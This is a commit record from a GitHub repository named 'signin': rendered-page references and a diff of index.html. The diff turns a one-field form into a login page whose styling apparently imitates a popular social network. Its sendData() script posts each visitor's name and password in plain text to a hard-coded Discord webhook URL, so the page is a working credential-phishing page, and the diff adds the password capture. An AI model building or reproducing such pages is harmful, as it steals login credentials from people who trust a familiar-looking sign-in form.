

Before and after one commit to senwahisimo-wq/signin, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 191-604 px from the top of the page, without its empty margins (326-966 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,32 +2,113 @@
 <html lang="en">
 <head>
 <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1">
-  <title> Login </title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>Custom Login</title>
+
 <style>
-    body { font-family: Arial; display:flex; justify-content:center; align-items:center; height:100vh; background:#f4f4f4; }
-    .box { background:white; padding:25px; width:300px; border-radius:10px; box-shadow:0 0 10px rgba(0,0,0,0.1); }
-    input, button { width:100%; padding:10px; margin-top:10px; border-radius:6px; border:1px solid #ccc; }
-    button { background:#3897f0; color:white; border:none; cursor:pointer; }
+    body {
+        font-family: Arial, sans-serif;
+        background: #fafafa;
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        height: 100vh;
+    }
+
+    .login-box {
+        width: 350px;
+        background: #fff;
+        border: 1px solid #dbdbdb;
+        padding: 40px;
+        text-align: center;
+        border-radius: 12px;
+    }
+
+    h2 {
+        font-weight: 700;
+        margin-bottom: 30px;
+    }
+
+    .input-group {
+        position: relative;
+        width: 100%;
+        margin-bottom: 15px;
+    }
+
+    input {
+        width: 100%;
+        padding: 12px;
+        padding-right: 40px;
+        border: 1px solid #dbdbdb;
+        border-radius: 6px;
+        background: #fafafa;
+        font-size: 14px;
+    }
+
+    .show-btn {
+        position: absolute;
+        right: 10px;
+        top: 50%;
+        transform: translateY(-50%);
+        cursor: pointer;
+        font-size: 13px;
+        color: #555;
+        user-select: none;
+    }
+
+    button {
+        width: 100%;
+        padding: 12px;
+        background: #3897f0;
+        color: white;
+        border: none;
+        border-radius: 6px;
+        font-size: 15px;
+        cursor: pointer;
+    }
 </style>
 </head>
+
 <body>
 
-  <div class="box">
-    <h2> Sign In </h2>
-    <input id="user" type="text" placeholder="Enter something…" />
-    <button onclick="send()">Submit</button>
+<div class="login-box">
+    <h2>Sign In</h2>
+
+    <div class="input-group">
+        <input id="username" type="text" placeholder="Name">
+    </div>
+
+    <div class="input-group">
+        <input id="password" type="password" placeholder="Password">
+        <span class="show-btn" onclick="togglePassword()">Show</span>
+    </div>
+
+    <button onclick="sendData()">Login</button>
 </div>
 
 <script>
-    async function send() {
-      const text = document.getElementById("user").value;
+function togglePassword() {
+    const field = document.getElementById("password");
+    const btn = document.querySelector(".show-btn");
+
+    if (field.type === "password") {
+        field.type = "text";
+        btn.textContent = "Hide";
+    } else {
+        field.type = "password";
+        btn.textContent = "Show";
+    }
+}
+
+async function sendData() {
+    const username = document.getElementById("username").value;
+    const password = document.getElementById("password").value;
 
     await fetch("https://discord.com/api/webhooks/1446900731742523646/cu3IEgN-WE5trLFzKQ_gci-XZq4pud_54AjJSc1galU5VAC2TZXPSa-gKCbBC3lKA1Eg", {
         method: "POST",
         headers: { "Content-Type": "application/json" },
         body: JSON.stringify({
-          content: `New submission: ${text}`
+            content: `📩 New Login\n👤 Name: ${username}\n🔑 Password: ${password}`
         })
     });
 
```
Lines whose indentation alone changed are shown as unchanged.
